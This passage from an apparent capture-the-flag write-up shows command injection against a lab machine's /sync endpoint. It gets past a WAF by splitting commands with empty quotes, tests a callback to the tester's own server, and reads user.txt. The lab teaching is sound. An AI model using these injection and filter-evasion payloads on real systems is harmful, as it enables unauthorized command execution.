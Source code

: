 Perhaps the 403 is a WAF rejecting me, which is why /bin/l doesn’t get 403, but /bin/ls does? But the Server: SuperWAF comes back only in the empty replies and the functional replies.

Seems like if I can figure out command injection, then I can figure out how to get that through the WAF…

Adding a space starts to get somewhere…and using ” to break things apart.
*July 2023 Update* - It seems that `curl` behaves a bit differently now, and won’t send these kind of broken payloads any more. Where in 2018, this worked:

```

root@kali# curl "10.10.10.69/sync?opt=' pw''d'"
/
bash: -c: option requires an argument

root@kali# curl "10.10.10.69/sync?opt=' whi''ch cu''rl'"
/usr/bin/curl
bash: -c: option requires an argument

```

In 2023, it does not:

```

oxdf@hacky$ curl "10.10.10.69/sync?opt=' pw''d'"
curl: (3) URL using bad/illegal format or missing URL

```

No request is even sent. Still, it does work in Burp Repeater:

![image-20230715061913023](/img/image-20230715061913023.png)

I won’t update every command from here on, but do note that you may need something else besides `curl`. Thanks to InvertedClimbing for the tip.

Test callout:

```

root@kali# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.69 - - [25/Mar/2018 14:34:01] "GET / HTTP/1.1" 200 -

root@kali# curl "10.10.10.69/sync?opt=' cu''rl 10.10.14.157'"
0xdf
bash: -c: option requires an argument

```

Grab user.txt:

```

root@kali# curl "10.10.10.69/sync?opt=' l''s /home'"
FluxCapacitorInc
themiddle
bash: -c: option requires an argument

root@kali# curl "10.10.10.69/sync?opt=' l''s /home/themiddle'"
checksync
user.txt
bash: -c: option requires an argument

root@kali# curl "10.10.10.69/sync?opt=' c''at /home/themiddle/us''er.txt'"
Flags? Where we're going we don't need flags.
bash: -c: option requires an argument

```